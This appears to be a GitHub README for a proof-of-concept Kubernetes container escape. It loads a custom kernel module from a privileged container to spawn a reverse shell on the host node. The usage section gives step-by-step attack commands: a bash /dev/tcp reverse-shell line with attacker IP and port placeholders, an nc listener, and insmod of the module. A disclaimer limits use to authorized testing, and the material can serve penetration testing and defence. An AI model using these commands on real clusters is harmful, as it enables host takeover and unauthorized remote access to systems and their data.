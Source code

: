# 🛠️ Kernel Module Reverse Shell – Privileged Container Escape PoC

This repository demonstrates a real-world **container escape technique** using a custom **Linux Kernel Module (LKM)** to spawn a reverse shell from within a `--privileged` Kubernetes container.

Featured in [RBT Security’s Kubernetes Penetration Testing – Part Three](https://www.rbtsec.com/blog/kubernetes-pentesting-part-three), this proof-of-concept shows how attackers can go beyond the container boundary and **execute commands directly on the host**.

> ⚠️ **For educational and authorized testing only.**  
> Do NOT run this code in any environment you do not own or have explicit permission to test.

---

### 🔍 About LKM (Description)  
A Loadable Kernel Module (LKM) lets code run in kernel space without rebooting. When used from a privileged Kubernetes container, it can enable full host compromise. This PoC shows how attackers exploit SSTI, load a reverse shell LKM, and escape the container to gain root access on the Node.

---

## 🚀 How It Works

1. The attacker exploits a vulnerability (e.g., SSTI) to gain code execution inside a **privileged container**.  
2. A **custom kernel module** is compiled and injected from inside the container, with the reverse shell IP and port hardcoded in the source code.  
3. Once loaded, the module uses `call_usermodehelper()` to initiate a **reverse shell** to the attacker’s listener.  
4. Since the container runs with full kernel capabilities (e.g., `CAP_SYS_MODULE`), this grants **host-level command execution**.

---

## 📁 Files

- `k8s-lkm-reverse-shell.c`: The kernel module source code  
- `Makefile`: Used to compile the module for the target kernel

---

## 💻 Usage

```bash
# Step 1: Install dependencies inside the container
apt update
apt install -y build-essential linux-headers-$(uname -r)

# Step 2: Edit the reverse shell IP and port in the C source file
# File: k8s-lkm-reverse-shell.c
# Replace <your-ip> and <port> with your attacker's listener

#define REVERSE_SHELL_CMD \ "bash -i >& /dev/tcp/<your-ip>/<port> 0>&1";

# Step 3: Compile the kernel module
make clean && make

# Step 4: Start your listener
nc -lvnp 6999

# Step 5: Load the kernel module (inside the container)
insmod k8s-lkm-reverse-shell.ko
